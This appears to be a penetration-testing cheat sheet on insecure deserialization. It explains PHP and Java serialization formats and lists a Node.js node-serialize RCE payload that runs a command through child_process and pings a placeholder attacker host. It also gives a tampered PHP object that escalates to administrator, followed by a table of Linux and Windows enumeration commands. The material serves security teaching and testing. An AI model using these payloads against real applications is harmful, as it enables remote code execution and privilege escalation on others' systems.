 

# Insecure deserialization


## PHP serialization format

PHP uses a mostly human-readable string format, with letters representing the data type and numbers representing the length of each entry. For example, consider a User object with the attributes:

```php
$user->name = "carlos";
$user->isLoggedIn = true;
```
When serialized, this object may look something like this:
`O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}`

This can be interpreted as follows:

    O:4:"User" - An object with the 4-character class name "User"
    2 - the object has 2 attributes
    s:4:"name" - The key of the first attribute is the 4-character string "name"
    s:6:"carlos" - The value of the first attribute is the 6-character string "carlos"
    s:10:"isLoggedIn" - The key of the second attribute is the 10-character string "isLoggedIn"
    b:1 - The value of the second attribute is the boolean value true

## Java serialization format

Some languages, such as Java, use binary serialization formats. This is more difficult to read, but you can still identify serialized data if you know how to recognize a few tell-tale signs. For example, serialized Java objects always begin with the same bytes, which are encoded as ac ed in hexadecimal and rO0 in Base64.

Any class that implements the interface java.io.Serializable can be serialized and deserialized. If you have source code access, take note of any code that uses the readObject() method, which is used to read and deserialize data from an InputStream. 


### Node.js deserialization vulnerability payload [RCE]

```js
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ping attacker.com',function(error, stdout, stderr) { console.log(stdout) });}()"}
```
### Modifying serialized data types
```js
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```



# Windows
----------------------------------------------------------------------------------------------------------
## Basic enumeration on linux and windows
| **Linux**  | **Windows** | **Purpose of command** |
|------------|-------------|------------------------|
|`whoami`|`whoami`|Name of current user
| `uname -a`|`ver`|Operating system
|`ifconfig`|`ipconfig /all`|Network configuration
|`netstat -an`|`netstat -an`|Network connections
|`ps -ef`|`tasklist`|Running processes